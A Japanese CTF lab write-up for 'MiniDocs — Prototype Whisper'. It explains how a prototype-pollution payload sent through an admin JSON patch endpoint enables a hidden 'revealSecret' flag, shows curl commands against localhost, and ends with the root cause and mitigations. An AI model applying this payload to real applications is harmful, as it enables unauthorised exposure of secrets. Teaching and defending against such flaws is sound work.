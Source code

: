 # MiniDocs — Prototype Whisper

## 解法（簡易版）

1. 管理者でログイン後右上のadminを押下 
2. `{"featureFlags":{"__proto__":{"revealSecret":true}}}` を送信し、**prototype 汚染**で `revealSecret` を有効化。  
3. 画面下部の`secretPreview` が `<FLAG_PP>` に変化したことを確認。

## 解法(詳細)

### 1) `admin`から管理者画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- 管理画面中部 **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある。

### 2) ヒント
- **bob の勉強メモ**（例：`doc-bo-0002` *「勉強メモ: 配列のマージ処理」*）に **deep merge（deepmerge）** という語が登場し、
  さらに `doc-bo-0004` *「勉強メモ: 機能フラグの管理」* で **`featureFlags` というトップレベルキー**が示唆される。
- **admin の運用メモ**（例：`doc-ad-0002` *「設定っぽいもの」*）には、**画面から設定を入れる**旨と
  **`{"limits":{"maxDoc":100}}` のような JSON 例**が書かれている。
- 管理者画面の**「現在の設定」**にavailableFeatureFlagsに複数使用できる設定があり、その中に**revealSecret**がある。
  Secretとあるので使用怪しい。
- これらから、**設定の“パッチ”は JSON で送り、受理されるルートは `limits` / `featureFlags`** と推測できる。
  ただし **`revealSecret` は UI からは直接いじれない**（＝“システム専用”らしい）ため、**別の経路（PP）**が必要だと分かる。

### 3) 送信ペイロード
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。 

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. 管理画面下部 **「現在の設定」** の内容に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される。

---

## 付録：curl 参考
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。
